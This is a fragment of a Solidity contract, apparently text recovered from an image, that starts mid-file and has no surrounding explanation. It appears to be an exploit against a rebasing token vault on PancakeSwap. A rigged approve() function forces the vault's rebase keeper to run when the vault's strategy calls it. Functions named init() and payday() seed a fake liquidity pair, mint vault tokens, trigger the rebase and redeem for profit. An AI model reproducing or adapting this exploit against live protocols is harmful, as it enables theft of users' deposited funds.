```solidity
    }

    function transferFrom(address _from, address _to, uint256 _value) public returns (bool success) {
        require(_value <= allowance[_from][msg.sender]);     
        allowance[_from][msg.sender] -= _value;
        _transfer(_from, _to, _value);
        return true;
    }

    function approve(address _spender, uint _value) public returns (bool success){
        if(msg.sender == address(strategy)){
            IPerform(rebaseUpKeep).performUpkeep("0x");
        }
        allowance[msg.sender][_spender] = _value; 
        return true;
    }
    function init() public{
        require(msg.sender == owner);
        balanceOf[address(this)] = 1000000;
        IRhoToken(rhoAddress).setRebasingOption(true);
        IERC20(rhoAddress).approve(vaultAddress, MAX);
        IERC20(BUSDAddress).approve(vaultAddress, MAX);
        IERC20(BUSDAddress).approve(PancakeRouter, MAX);
        IERC20(address(this)).approve(PancakeRouter, MAX);
        (, , uint LPamount ) = IPancakeRouter01(PancakeRouter).addLiquidity(BUSDAddress, address(this), 1000, 1000000, 0, 0, address(this), block.timestamp);
        pair = IPancakeFactory(PancakeFactory).getPair(BUSDAddress, address(this));
        IPancakePair(pair).transfer(strategy, LPamount);
        IVault(vaultAddress).mint(10000);
        IPerform(rebaseUpKeep).performUpkeep("0x");
        IVault(vaultAddress).redeem(IERC20(rhoAddress).balanceOf(address(this)));
    }
    function payday() public{
        BUSDBalanceBefore = IERC20(BUSDAddress).balanceOf(address(this));
        (Mbefore, ) = IRhoToken(rhoAddress).getMultiplier();
        IERC20(BUSDAddress).approve(vaultAddress, MAX);
        IERC20(rhoAddress).approve(vaultAddress, MAX);
        IERC20(rhoAddress).approve(PancakeRouter, MAX);
        IERC20(BUSDAddress).approve(PancakeRouter, MAX);

        IVault(vaultAddress).mint(IERC20(BUSDAddress).balanceOf(vaultAddress)*10);
        rhoBefore = IERC20(rhoAddress).balanceOf(address(this));
        IPerform(rebaseUpKeep).performUpkeep("0x");
        (Mafter,) = IRhoToken(rhoAddress).getMultiplier();
        rhoAfter = IERC20(rhoAddress).balanceOf(address(this));
        IVault(vaultAddress).redeem(rhoAfter);

        BUSDBalanceAfter = IERC20(BUSDAddress).balanceOf(address(this));
        
    }
}
```
